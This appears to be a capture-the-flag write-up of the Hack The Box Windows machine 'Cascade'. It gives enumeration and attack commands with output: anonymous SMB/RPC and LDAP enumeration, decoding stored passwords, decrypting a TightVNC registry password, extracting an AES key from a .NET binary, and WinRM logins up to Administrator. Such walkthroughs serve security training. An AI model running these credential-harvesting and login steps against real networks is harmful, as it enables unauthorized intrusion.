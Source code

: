 ```yaml
---
layout: post
title: HTB Machine - Cascade
subtitle: Writeup
cover-img: https://www.hackthebox.com/storage/avatars/64fef851357b8de1c4834093bf3426f2.png
thumbnail-img: https://www.hackthebox.com/storage/avatars/64fef851357b8de1c4834093bf3426f2.png
share-img: https://www.hackthebox.com/storage/avatars/64fef851357b8de1c4834093bf3426f2.png
tags: [ HTB, Active Directory, Hack the Box, Powershell,LDAP,.NET,SQLite,TightVNC,WinRM,RPC,Web,Network,Vulnerability Assessment,Active Directory,Protocols,Cryptography,Security Tools,Reversing,Authentication,SMB,DNSPY,.NET,Reconnaissance,User Enumeration,Password Reuse,Clear Text Credentials,Information Disclosure,Weak Cryptography,Hard-coded Credentials]
---
```


##### Enumerate smb and rpc. We found some users that we place in a file and then check if we can get a TGT. No luck. We check if there is any other info in the info of the users.

```bash
crackmapexec smb 10.10.10.182 -u ''
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)

rpcclient -U '' 10.10.10.182 -N -c 'enumdomusers' |  grep -oP '\[.*?\]' | grep -v "0x" | tr -d '[]' > users.txt

/home/rickybana/.local/bin/GetNPUsers.py -no-pass -usersfile users.txt cascade.local/
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User arksvc doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User s.smith doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User r.thompson doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User util doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User j.wakefield doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User s.hickson doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User j.goodhand doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User a.turnbull doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User d.burman doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User BackupSvc doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User j.allen doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)

rpcclient -U '' 10.10.10.182 -N -c 'querydispinfo'
index: 0xee0 RID: 0x464 acb: 0x00000214 Account: a.turnbull	Name: Adrian Turnbull	Desc: (null)
index: 0xebc RID: 0x452 acb: 0x00000210 Account: arksvc	Name: ArkSvc	Desc: (null)
index: 0xee4 RID: 0x468 acb: 0x00000211 Account: b.hanson	Name: Ben Hanson	Desc: (null)
index: 0xee7 RID: 0x46a acb: 0x00000210 Account: BackupSvc	Name: BackupSvc	Desc: (null)
index: 0xdeb RID: 0x1f5 acb: 0x00000215 Account: CascGuest	Name: (null)	Desc: Built-in account for guest access to the computer/domain
index: 0xee5 RID: 0x469 acb: 0x00000210 Account: d.burman	Name: David Burman	Desc: (null)
index: 0xee3 RID: 0x467 acb: 0x00000211 Account: e.crowe	Name: Edward Crowe	Desc: (null)
index: 0xeec RID: 0x46f acb: 0x00000211 Account: i.croft	Name: Ian Croft	Desc: (null)
index: 0xeeb RID: 0x46e acb: 0x00000210 Account: j.allen	Name: Joseph Allen	Desc: (null)
index: 0xede RID: 0x462 acb: 0x00000210 Account: j.goodhand	Name: John Goodhand	Desc: (null)
index: 0xed7 RID: 0x45c acb: 0x00000210 Account: j.wakefield	Name: James Wakefield	Desc: (null)
index: 0xeca RID: 0x455 acb: 0x00000210 Account: r.thompson	Name: Ryan Thompson	Desc: (null)
index: 0xedd RID: 0x461 acb: 0x00000210 Account: s.hickson	Name: Stephanie Hickson	Desc: (null)
index: 0xebd RID: 0x453 acb: 0x00000210 Account: s.smith	Name: Steve Smith	Desc: (null)
index: 0xed2 RID: 0x457 acb: 0x00000210 Account: util	Name: Util	Desc: (null)
```

##### we can try to bruteforce the pass expecting for a user to use his username as pass but that would not work. Next we can try to enumerate the ldap.
```bash
ldapsearch -x -H ldap://10.10.10.182 -b 'DC=cascade,DC=local' | cat -l ruby
```
##### the colors of the batcat make it easier to read. We are looking for the userPrincipalName to check our users. in the batcat use /userPrincipalName to search for the parameter and press N in your keyboard to jump to the next hit. Underneath the user r.thomson we see an interesting parameter. 
```bash
cascadeLegacyPwd: clk0bjVldmE=
```
##### seems like is base64 so we need to decode: 
```bash
echo 'clk0bjVldmE=' | base64 -d; echo
rY4n5eva
```
##### verify the pass with crackmapexec.
```bash
crackmapexec winrm 10.10.10.182 -u 'r.thompson' -p 'rY4n5eva'
SMB         10.10.10.182    5985   CASC-DC1         [*] Windows 6.1 Build 7601 (name:CASC-DC1) (domain:cascade.local)
HTTP        10.10.10.182    5985   CASC-DC1         [*] http://10.10.10.182:5985/wsman
WINRM       10.10.10.182    5985   CASC-DC1         [-] cascade.local\r.thompson:rY4n5eva 

crackmapexec smb 10.10.10.182 -u 'r.thompson' -p 'rY4n5eva'
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\r.thompson:rY4n5eva 
```
##### We can try to do a dump of the ldap to check it. So we do the dump on our content folder and from there start a webserver. Then go to the browser and the localhost address, check all the data in the html files. 
```bash
ldapdomaindump 10.10.10.182 -u 'cascade.local\r.thompson' -p 'rY4n5eva'

python3 -m http.server 80
```
##### we are going to enumerate the smb now.
```bash
smbmap -H 10.10.10.182 -u "r.thompson" -p 'rY4n5eva' -r

smbmap -H 10.10.10.182 -u "r.thompson" -p 'rY4n5eva' -A '(xlsx|docx|txt|xml|reg|log|html)' -R
```

##### We found a file .reg if we cat it we could see a password fiel that is coded in hex. When decoding it we se that the password has a weird pattern, but we could try to decode it, if we ask saint google for 'VNC view decrypted password github' a few tools appear. The solution we found uses for tools already in the system. 

```bash
"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f

echo "6bcf2a4b6e5aca0f" | xxd -ps -r | xxd
00000000: 6bcf 2a4b 6e5a ca0f                      k.*KnZ..

echo -n 6bcf2a4b6e5aca0f | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d | hexdump -Cv

```

##### we dont know for which user is the credential valid but we are going to use it against our list of users to find out. After finding it we can winrm to the machine and extract the first flag.  

```bash
crackmapexec winrm 10.10.10.182 -u users.txt -p 'sT333ve2' --continue-on-success
WINRM       10.10.10.182    5985   CASC-DC1         [+] cascade.local\s.smith:sT333ve2 (Pwn3d!)

evil-winrm -i 10.10.10.182 -u 's.smith' -p 'sT333ve2'
```

##### From there we need to enumerate our priv and the user memberships. If we enum the audit share local group we see a comment that seems to mention a share. We will jump and enumerate then smb with the user credentials. The folder Audit$ seems to have interesting stuff, we are going to dl to our attack machine to check it. For that we will connect with smbclient, turn the prompt off so it does not ask for 'are you sure?' all the time, we activate the recurse so it goes inside each folder and then run a mget * to dl it. 

```bash
whoami /all
net user s.smith
net localgroup 'Audit Share'

smbmap -H 10.10.10.182 -u 's.smith' -p 'sT333ve2' -r Audit$

smbclient //10.10.10.182/Audit$ -U "s.smith%sT333ve2"
prompt off
recurse ON
mget *

```
##### we examine the files there is one that contains a database. Mount it to examine it. If we enum all tables we will find something intersting in one of the tables. Seems like a base64 but when decoding it the pattern does not seem correct. 

```bash
cd DB

file Audit.db
Audit.db: SQLite 3.x database, last written using SQLite version 3027002, file counter 60, database pages 6, 1st free page 6, free pages 1, cookie 0x4b, schema 4, UTF-8, version-valid-for 60

.tables

select * from Ldap;
1|ArkSvc|BQO5l5Kj9MdErXx6Q6AGOw==|cascade.local
```

##### go back to the dl files and lets keep examining it. There is an exe file and when displaying the strings we can see some sort of pass. testing it with crackmapexec against our list of users is unfruitful. So we might need to dig deeper into the .exe file.

```bash
strings CascAudit.exe -e l

c4scadek3y654321
```

##### in a windows machine install dotpeek tool and open the .exe file in it, we verify in the code that the key is that one. The code mentions an import module called crypto that is used to decrypt along with the key. The crypto module is a .dll that we have and we can also import in dotPeek. Once we have it there we can examine it and see and IV key. Also the code mentions the encryption type. 

AES mode CBC

##### with that info we can go to cyberchef and feed it with the input and 2 modules: From base 64 and AES decrypt

```
From base 64: standard

AES decrypt
Key: c4scadek3y654321
UTF8
IV: 1tdyjCbY1Ix49842
UTF8
Mode: CBC
Input: Raw
Output: Raw

output: w3lc0meFr31nd
```

##### we can verify the credentials and login as the user. 

```Bash
crackmapexec winrm 10.10.10.182 -u 'ArkSvc' -p 'w3lc0meFr31nd'
SMB         10.10.10.182    5985   CASC-DC1         [*] Windows 6.1 Build 7601 (name:CASC-DC1) (domain:cascade.local)
HTTP        10.10.10.182    5985   CASC-DC1         [*] http://10.10.10.182:5985/wsman
WINRM       10.10.10.182    5985   CASC-DC1         [+] cascade.local\ArkSvc:w3lc0meFr31nd (Pwn3d!)

evil-winrm -i 10.10.10.182 -u 'ArkSvc' -p 'w3lc0meFr31nd'
```

##### we know that the user is able to see deleted object from the AD and in one of the files we enumerated earlier it was mentioned that there was a TempAdmin with the same credentials as the Admin. If we google 'powershell get object deleted object filter' we get to a post with a command to show already deleted users. We will add to list all the properties. In on of the properties there is a pass coded in base64, decode it to get the password, validate it and collect the root flag.

```bash
get-adobject -Filter {Deleted -eq $true -and ObjectClass -eq "user"} -IncludeDeletedObjects -Properties *

echo 'YmFDVDNyMWFOMDBkbGVz' | base64 -d; echo
baCT3r1aN00dles

evil-winrm -i 10.10.10.182 -u 'Administrator' -p 'baCT3r1aN00dles'
```